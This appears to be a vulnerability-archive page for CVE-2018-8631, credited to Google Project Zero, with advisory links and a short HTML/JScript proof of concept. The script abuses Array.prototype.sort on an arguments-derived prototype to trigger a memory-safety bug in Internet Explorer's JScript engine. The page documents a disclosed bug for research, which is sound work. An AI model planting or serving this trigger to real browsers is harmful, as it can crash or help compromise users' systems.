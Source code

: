 # CVE-2018-8631

- Report: Oct 2018
- Fix: Dec 2018
- Credit: ifratric of Google Project Zero

## PoC

```html
<meta http-equiv="X-UA-Compatible" content="IE=8"></meta>
<script language="Jscript.Encode">

function f0() { }

function f1() {
  f2.prototype = arguments;
  new f2();
}

function f2() {
  Array.prototype.sort.call(this, f0);
}

f1(1, 2, 3);

</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8631)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1684)
